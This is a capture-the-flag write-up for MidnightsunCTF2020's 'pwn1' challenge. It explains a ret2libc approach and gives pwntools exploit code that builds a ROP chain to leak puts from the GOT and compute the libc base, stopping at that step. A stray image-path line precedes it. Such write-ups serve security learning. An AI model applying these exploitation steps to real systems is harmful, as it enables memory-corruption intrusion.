 # MidnightsunCTF2020
url: [https://ctf.midnightsunctf.se/](https://ctf.midnightsunctf.se/)
country: Sweden?
team: TaQini@Nepnep 

## pwn1 (70pt)
### Description

> An homage to pwny.racing, we present... speedrun pwn challenges.
> These bite-sized challenges should serve as a nice warm-up for your pwning skills.


### Attachment

[pwn1](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MidnightsunCTF2020/pwn/pwn1/pwn1), [libc](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MidnightsunCTF2020/pwn/pwn1/libc.so)

### Analysis

just an general warming up task of ret2libc attack

### Solution

#### leak libc 

**ASLR** is enabled, so leak libc first:

```python
# elf, libc
main = 0x00400698

# rop1
offset = cyclic_find(0x61616173)
payload = cyclic(offset)
payload += p64(prdi) + p64(elf.got['puts']) + p64(elf.sym['puts']) + p64(main)

ru('buffer: ')
# debug()
sl(payload)
```

#### calculate baseaddr

we can calculate the base address of libc by `puts-libc.sym['puts']` after `puts` in libc was leaked

```python
puts = uu64(rc(6))
info_addr("puts",puts)
libcbase = puts-libc.sym['puts']
```
